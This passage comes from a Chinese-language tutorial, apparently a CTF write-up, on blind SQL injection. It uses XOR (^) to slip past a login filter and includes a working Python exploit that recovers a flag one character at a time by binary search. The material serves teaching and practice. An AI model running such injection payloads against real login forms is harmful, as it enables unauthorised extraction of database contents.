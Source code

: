 ```
        `}`
    `}`

highlight_file(__FILE__);
?&gt;
```

可以看到这里过滤了很多东西，但是没有过滤 ^ ，我们可以利用这个点做文章

我们可以构造条件语句来进行对flag字段进行猜解，当语句错误时，查询条件则为 ‘1’^0^’’，得1，数据库查询不到结果，网页会返回’Invalid username or password’

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/SQL%E7%9B%B2%E6%B3%A819.png)

当语句正确时，查询条件则为 ‘1’^1^’’ ,数据库有返回结果，网页则不返回’Invalid username or password’。因此可以用它来当语句正确与否的标志，然后逐字猜解即可获得flag

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/SQL%E7%9B%B2%E6%B3%A820.png)

我下面给出这个代码的 exp

**exp.py**

```
import requests

url = "http://xxx.xxx.xxx.xxx:8300/index.php?action=login"
data = `{`
    "username": "",
    "password": "123"
`}`
payload = "1'^(ascii(mid((flag)from(`{``}`)))&gt;`{``}`)^'"
flag = ""
for i in xrange(1, 39):
    start = 32
    end = 126
    while start &lt; end:
        mid = (start + end) / 2
        data['username'] = payload.format(str(i), str(mid))
        r = requests.post(url, data = data)
        if 'Invalid username or password' not in r.content:
            start = mid + 1
        else:
            end = mid
    flag += chr(start)
    print flag
```

可以好好看一下这个 payload 部分是怎么构造的，联系一下我们之前讲过的内容分析一下。

##### **4.使用 ~**

这个方法是这样的，当系统不允许输入大的数字的时候，可能是限制了字符的长度，限制了不能使用科学计数法，但是我们还是想让其报错，我们就能采取这种方式，如下所示

